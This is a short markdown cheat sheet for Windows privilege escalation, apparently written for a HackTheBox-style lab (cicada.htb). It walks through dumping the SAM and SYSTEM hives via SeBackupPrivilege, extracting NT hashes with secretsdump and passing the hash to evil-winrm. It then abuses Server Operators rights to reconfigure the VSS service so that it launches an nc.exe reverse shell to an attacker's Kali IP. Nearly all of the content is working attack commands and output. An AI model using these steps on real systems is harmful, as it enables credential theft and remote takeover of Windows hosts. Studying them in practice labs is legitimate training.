## Start here
Check user priveleges
```
whoami /priv
```
Interesting entries include:
- SeBackupPrivilege (get arbitrary file read; described below)
- SeLoadDriverPrivilege (load a vulnerable driver and exploit it)
- SeMachineAccountPrivilege (add a machine to the domain)

Check user groups
```
whoami /groups
```
Interesting entries include:
- Server Operators (start and stop services; described below)

  
## SeBackupPrivilege
SeBackupPrivilege exploitation
```
whoami /priv
Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
```
Obtain SAM and SYSTEM registry hives
```
# Using evil-winrm session to the victim host
cd C:\temp
reg save hklm\sam sam
reg save hklm\system system
download sam
download system
```
Extract hashes
```
# On Kali host
secretsdump.py -sam sam -system system LOCAL
OR
impacket-secretsdump -sam sam -system system local

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```
Use the hashes (2nd part is the NT hash) with evil-winrm for execution
```
# evil-winrm -u Administrator -H <NT hash> -i cicada.htb
evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb
```

## Server Operators
Create malicious service that creates privileged reverse shell nc.exe
```
# Using evil-winrm session, place the nc.exe in the same folder on Kali linux
# nc.exe will be uploaded to the current folder on the Windows host
upload nc.exe

# check running services
sc.exe query

# modify the config of 'vss' service (as this is a popular service) to point to nc.exe
sc.exe config vss binPath="C:\path\to\nc.exe -e cmd.exe <Kali IP> 4444"

# On Kali prepare for the connection
nc -nlvp 4444

# Restart the service
sc.exe stop VSS
sc.exe start VSS

# Connection should be received NOW
```



